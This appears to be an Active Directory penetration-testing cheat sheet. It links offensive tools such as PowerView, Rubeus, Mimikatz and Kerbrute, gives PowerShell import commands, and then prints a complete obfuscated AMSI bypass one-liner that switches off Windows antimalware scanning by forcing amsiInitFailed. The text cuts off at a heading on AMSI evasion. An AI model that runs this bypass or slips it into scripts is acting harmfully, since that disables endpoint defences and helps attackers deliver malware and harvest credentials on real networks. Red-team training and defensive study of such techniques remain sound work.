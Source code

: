 ## Tools and Scripts
- [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
  - [PowerView Tutorial](https://powersploit.readthedocs.io/en/latest/Recon/)
- [PowerView Dev](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
- [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)
- [HeidiSQL Client](https://github.com/HeidiSQL/HeidiSQL)
- [AD Module](https://github.com/samratashok/ADModule)
- [PowerShell AMSI Bypass](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
- [Neo4j - Community Version](https://neo4j.com/download-center/#community)
- [SharpHound](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors)
  - [SharpHound Tutorial](https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html)
- [BloodHound](https://github.com/BloodHoundAD/BloodHound)
- [Rubeus](https://github.com/GhostPack/Rubeus)
- [MS-RPRN](https://github.com/leechristensen/SpoolSample)
- [Kekeo](https://github.com/gentilkiwi/kekeo/)
- [Mimikatz](https://github.com/gentilkiwi/mimikatz/)
- [Kerbrute](https://github.com/ropnop/kerbrute/)

## Pre-requisites
### Using PowerView:
```powershell
. .\PowerView.ps1
```

### Using PowerView dev:
```powershell
. .\PowerView_dev.ps1
```

### Using AD Module
```powershell
Import-Module .\Microsoft.ActiveDirectory.Management.dll
Import-Module .\ActiveDirectory\ActiveDirectory.psd1
```

# PowerShell AMSI Bypass
```powershell
# AMSI bypass
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

# PowerShell AMSI Evasion
